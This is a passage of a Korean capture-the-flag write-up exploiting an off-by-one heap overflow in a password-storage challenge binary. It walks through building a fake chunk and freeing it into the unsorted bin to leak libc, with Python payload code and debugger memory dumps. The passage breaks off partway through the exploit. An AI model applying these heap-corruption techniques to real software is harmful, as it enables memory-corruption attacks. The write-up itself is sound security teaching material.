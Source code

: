 그런데 고정된 길이의 `name`도 `len + 1`만큼 `read`를 하기 때문에 다음 `password` 구조체의 `credential`을 overwrite할 수 있다.

`credential`에서도 `len + 1`만큼 값을 쓸 수 있기 때문에 다음 chunk의 header 첫 바이트를 overwrite할 수는 있지만 `prev_size`를 바꿔서 exploit으로 이어갈 아이디어가 떠오르지 않았다.

## 0x02. Exploit
Exploit을 진행하기에 앞서 보호기법을 확인해보면 code, stack, libc 모든 영역이 변동되는 상태이다.

따라서 현재 가지고 있는 `credential` overwrite 취약점을 가지고 최소 한 영역의 memory leak을 해야겠다는 생각이 들었다.

### Libc leak
Heap에서 활용할 수 있는 memory leak 테크닉 중 unsorted bin을 이용한 `main_arena` leak이 많이 사용된다.

`main_arena`는 libc 영역이기 때문에 offset 계산만 해주면 libc base를 획득할 수 있다.

문제는 크기가 `0x80` 이상인 chunk를 `free`시켜야 unsorted bin에 추가되는데 입력할 수 있는 `len`은 `0x79`가 최대이다.

Heap의 chunk들이 차례대로 쌓이고, 주소에서 `0xXXXXXXXXXXXXX000` 부분만 변동되므로 fake chunk를 구성하고 `credential` overwrite 취약점을 이용하여 다음 `password` 구조체의 `credential`이 fake chunk를 가리키게 할 수 있다.
``` python
    payload = p64(0)                                # fake chunk -> prev_size
    payload += p64(0x111)                           # fake chunk -> size
    save(s, 0x30, payload, b"0000")
    save(s, 0x30, b"BBBB", b"1111")
    save(s, 0x30, b"CCCC", b"2222")
    save(s, 0x40, b"DDDD", b"3333")
    save(s, 0x30, payload, b"4444")
    save(s, 0x60, b"FFFF", b"5555")
    save(s, 0x60, b"GGGG", b"6666")
```
먼저 `0000`, `4444`, top chunk의 offset 차이를 고려해서 chunk들을 배치한다.

처음에는 `0000`, `4444`의 offset 차이만 고려하면 되는 줄 알았는데, top chunk와도 offset 차이가 맞아야 fake chunk의 `free`가 성공한다.
``` bash
# first password structure
gef➤  x/5gx 0x555555558060
0x555555558060: 0x000055555555d010      0x0000000030303030
0x555555558070: 0x0000000000000000      0x0000000000000000
0x555555558080: 0x0000000000000000
# first fake chunk header
gef➤  x/2gx 0x000055555555d010
0x55555555d010: 0x0000000000000000      0x0000000000000111
# second fake chunk header
gef➤  x/2gx 0x000055555555d010 + 0x110
0x55555555d120: 0x0000000000000000      0x0000000000000111
# top chunk
gef➤  x/2gx 0x000055555555d010 + 0x220
0x55555555d230: 0x0000000000000000      0x0000000000020dd1
```
이제 `2222`의 `credential`이 fake chunk를 가리키게 만들기 위해 다음과 같이 payload를 작성했다.
``` python
    delete(s, b"1")                                 # free "1111"
    save(s, 0x30, b"BBBB", b"1" * 0x20 + b"\x20")   # alloc "1111" and overwrite next pointer
    delete(s, b"2")                                 # free fake chunk -> unsorted bin
```
`1111`을 이용해서 `2222`의 `credential`이 `0x55555555d020`을 가리키게 만들면 `0x55555555d010`에 넣은 값이 chunk header가 된다.
